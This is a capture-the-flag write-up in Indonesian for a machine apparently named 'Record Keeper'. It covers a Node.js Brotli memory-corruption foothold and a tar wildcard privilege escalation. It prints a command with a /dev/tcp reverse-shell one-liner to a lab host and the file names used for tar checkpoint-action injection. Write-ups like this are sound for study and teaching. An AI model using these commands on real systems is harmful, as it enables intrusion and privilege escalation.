

# Record Keeper (Root) — Analisis

[← Overview](16-record-keeper-root.md) · [Index](index.md)

## 2.1 Foothold Node2Shell (ringkas)

Service `:3000` adalah Node.js 24.9.0 dengan
`zlib.createBrotliDecompress({chunkSize: 0x330})`,
`Buffer.allocUnsafeSlow(0x330)`, satu Worker per koneksi, dan
`UV_THREADPOOL_SIZE=1`. Malformed Brotli stream memicu OOB write
(CVE-2026-111497). Exploit Arkango dengan profile
`node-24.9.0-worker-record-rce-bookworm-x86_64` melakukan heap grooming,
menimpa return address, pivot ke ROP chain, lalu `execvp("/bin/bash", ...)`.

Command yang dipakai:

```bash
RCE_CMD='id;exec 4<>/dev/tcp/10.10.20.10/4445;bash -i <&4 >&4 2>&4' \
python3 exploit/rce_worker.py --target 10.10.20.23 --port 3000 \
  --callback-host 10.10.20.10 --callback-bind 0.0.0.0 \
  --callback-port 4444 --timeout 30
```

Hasil: shell `uid=1000(node)`.

## 2.2 Sudo entry dan wrapper `record-archive`

Dari shell `node`:

```bash
sudo -n -l
```

Output:

```text
User node may run the following commands on ...:
    (ops) NOPASSWD: /usr/local/bin/record-archive
```

Wrapper `record-archive` (dari notes):

```sh
cd "$target"; tar -czf "$out" *
```

Ada dua masalah:

1. Wrapper berjalan sebagai `ops`, user yang lebih privileged daripada `node`.
2. `tar` dipanggil dengan glob `*` di direktori yang bisa dikontrol `node`.

## 2.3 Tar option injection dan checkpoint action

GNU tar mem-parsing argumen yang diawali `--` sebagai opsi, bahkan ketika
argumen itu berasal dari hasil glob shell. Jika direktori target berisi file
bernama:

```text
--checkpoint=1
--checkpoint-action=exec=sh x
```

maka command efektifnya menjadi:

```text
tar -czf <out> --checkpoint=1 --checkpoint-action=exec=sh x ...
```

`--checkpoint=1` memerintahkan tar menampilkan checkpoint setiap 1 record.
`--checkpoint-action=exec=sh x` menentukan aksi yang dijalankan saat
checkpoint: `sh x`. Karena tar berjalan sebagai `ops`, script `x` juga
dieksekusi sebagai `ops`.

Ini bukan memory corruption; ini fitur sah GNU tar yang disalahgunakan karena
input nama file tidak dipisahkan dengan `--`.

### Evidence langkah ini



*Terminal evidence — `02-enum-ops.txt` (arsip transkrip sesi solve).*
